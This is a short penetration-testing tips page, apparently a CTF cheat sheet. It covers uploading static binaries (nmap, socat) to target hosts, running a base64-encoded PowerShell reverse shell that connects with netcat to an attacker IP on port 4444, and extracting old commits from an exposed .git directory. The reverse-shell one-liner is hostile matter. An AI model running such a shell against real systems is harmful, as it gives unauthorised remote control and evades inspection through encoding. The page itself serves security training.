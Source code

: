 

# Tips

## Static binaries

Tools like `socat`, `nmap`, ... are rarely installed on machines, however you can upload a static binary and use it.

**List :** ag/the_silver_searcher, binutils, file, ht, nano, nmap, p0fv3, pv(PipeViewer), python, socat, strace, tcpdump, yasm.

**Link :** [github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/tree/master/binaries)

## Windows UTF16 Little Endian

```bash
$ echo 'c:\windows\temp\nc.exe 10.10.10.4 4444 -e powershell' | iconv -t utf-16le | base64 -w 0
YwA6AFwAdwBpAG4AZAB...

C:> powershell -e YwA6AFwAdwBpAG4AZAB...
```

## Extract files from .git

Using git :

```bash
$ ls -al web
total 12
drwxr-xr-x  3 xanhacks xanhacks 4096 Feb  7 14:47 .
drwxr-xr-x 12 xanhacks xanhacks 4096 Feb  7 14:47 ..
drwxr-xr-x  6 xanhacks xanhacks 4096 Feb  7 14:45 .git
$ git --work-tree=$(pwd) checkout HEAD^1 # checkout to a random commit
HEAD is now at 82dfc97 Initial Commit for the back-end
$ git --work-tree=$(pwd) checkout master # come back to the last commit
Previous HEAD position was 82dfc97 Initial Commit for the back-end
Switched to branch 'master
$ ls
css  favicon.png  fonts  img  index.html  js  resources
```

Using [GitTools](https://github.com/internetwache/GitTools) :

```bash
$ ls -al web
total 12
drwxr-xr-x  3 xanhacks xanhacks 4096 Feb  7 14:47 .
drwxr-xr-x 12 xanhacks xanhacks 4096 Feb  7 14:47 ..
drwxr-xr-x  6 xanhacks xanhacks 4096 Feb  7 14:45 .git
$ git clone https://github.com/internetwache/GitTools
[...]
$ bash GitTools/Extractor/extractor.sh web/ output/
[...]
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: 70dde80cc19ec76704567996738894828f4ee895
[...]
$ ls output
0-70dde80cc19ec76704567996738894828f4ee895
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
$ ls output/0-70dde80cc19ec76704567996738894828f4ee895
commit-meta.txt  css  favicon.png  fonts  img  index.html  js
```